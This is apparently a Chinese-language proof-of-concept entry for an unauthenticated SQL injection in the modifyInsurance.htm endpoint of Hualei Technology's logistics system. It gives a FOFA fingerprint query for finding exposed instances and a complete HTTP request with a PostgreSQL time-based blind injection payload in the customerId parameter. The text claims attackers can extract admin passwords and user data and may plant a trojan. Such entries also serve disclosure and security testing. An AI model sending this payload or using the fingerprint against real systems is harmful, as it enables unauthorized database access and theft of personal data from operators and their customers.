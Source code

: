 # 华磊科技物流modifyInsurance存在sql注入漏洞

华磊科技物流系统 modifyInsurance.htm等接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```yaml
body="l_c_bar"||body="l_c_center"
```

## poc

```yaml
GET /modifyInsurance.htm?documentCode=1&insuranceValue=1&customerId=1+AND+6269=(SELECT+6269+FROM+PG_SLEEP(5)) HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```

![9b6950da9ffc45e699c4df8ebcdeae21.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407232010044.png)